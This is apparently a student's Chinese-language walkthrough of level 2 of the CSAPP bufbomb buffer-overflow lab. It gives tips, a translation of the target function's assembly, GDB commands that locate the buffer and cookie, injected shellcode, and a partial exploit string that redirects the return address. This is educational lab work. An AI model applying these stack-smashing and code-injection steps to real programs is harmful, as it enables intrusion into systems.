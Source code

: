 ### 8.1.一些建议
1.您可以使用GDB获取构建漏洞利用字符串所需的信息。在getbuf中设置一个断点并运行到此断点。确定参数，如global_value的地址和缓冲区的位置
2.手工确定指令序列的字节编码是乏味的并且容易出错。您可以通过编写一个程序集代码文件来让工具完成所有工作，该文件包含要放入堆栈的指令和7个数据。用gcc-m32-c汇编这个文件，用objdump-d反汇编它。您应该能够获得将在提示下键入的确切字节序列。（如何做到这一点的简短示例包含在本文的末尾。）
3.请记住，您的漏洞利用字符串取决于您的机器、编译器，甚至您的userid的cookie。在讲师指定的一台机器上完成所有工作，并确保在BUFBOMB的命令行中包含正确的用户ID。
4.编写汇编代码时，请注意地址模式的使用。请注意，movl$0x4，%eax将值0x00000004移动到寄存器%eax；而movl 0x4，%eax将存储器位置0x00000004处的值移动到%eax。由于该内存位置通常未定义，第二条指令将导致segfault！
5.不要试图使用jmp或调用指令跳转到bang的代码。这些指令使用PC相对寻址，这很难正确设置。相反，在堆栈上推送一个地址并使用ret指令。
```cpp
//解题过程 :
// bang函数汇编代码翻译 :
push %ebp;
%ebp = %esp;
%esp -= 0x18;
%eax = (0x804d100);//括号表示间接寻址  取地址处的值
if( (0x804d108) == %eax){
    (%esp) + 0x8 = eax;
    (%esp) + 0x4 = 0x804a360;
    (%esp) = 1;
    call <__printf_chk@plt>;
    (%esp) = 2;
    call <validate>
}else{
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a50c;
    (%esp) = 1;
    call <__printf_chk@plt>;
}
(%esp) = 0;
call <exit@plt>;
```
```shell
gdb bufbomb
b *0x8049200
r -u h
x 0x804d100
0x804d100 <global_value>:	0x00000000
x 0x804d108
0x804d108 <cookie>:	0x20083f2f
x $eax
0x556835b8 <_reserved+1037752>:	0xf7e08cbb
#可以得知buf的位置是 0x556835b8
#(eax中的值是 0x556835b8 而 0x556835b8处的值是 0xf7e08cbb)


#插入汇编代码如下
mov 0x804d108,%eax #存入cookie值
mov %eax,0x804d100 #global_value = cookie
push $0x08048c9d #bang函数的地址，立即数要带$
ret #执行0x09048c9d处的代码

#上面的代码插入到buf，那么要怎么执行buf中的代码呢
#需要知道buf的地址，使getbuf函数返回时，转跳到buf
#上面已经知道buf的地址是0x556835b8

#先仿照level0，使getbuf函数返回时转跳到buf
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 b8 35 68 55

```